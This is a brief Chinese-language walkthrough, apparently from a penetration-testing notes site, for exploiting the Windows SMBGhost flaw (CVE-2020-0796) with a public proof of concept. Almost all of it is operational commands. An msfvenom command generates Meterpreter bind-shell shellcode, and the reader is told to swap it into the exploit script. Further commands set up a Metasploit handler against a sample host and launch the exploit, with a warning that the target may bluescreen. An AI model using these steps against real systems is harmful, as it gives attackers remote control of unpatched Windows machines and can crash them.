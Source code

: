 ### CVE-2020-0796 RCE EXP

[Github CVE-2020-0796 RCE EXP](https://github.com/chompie1337/SMBGhost_RCE_PoC)

msfvenom生成reversed shellcode

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py
```

将生成exp.py中的shellcode替换exploit.py中的shellcode

![](/img/20210924015426159514.png)

![](/img/20210924015426497450.png)

> [!NOTE]
>
> buf 要替换为 USER_PAYLOAD

使用 MSF

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
```

执行脚本即可

```
python3 exploit.py  -ip 192.168.1.110
```

> [!NOTE]
>
> 注意有蓝屏概率

## 参考文章

[Windows SMB Ghost（CVE-2020-0796）漏洞分析](https://www.freebuf.com/vuls/233263.html)
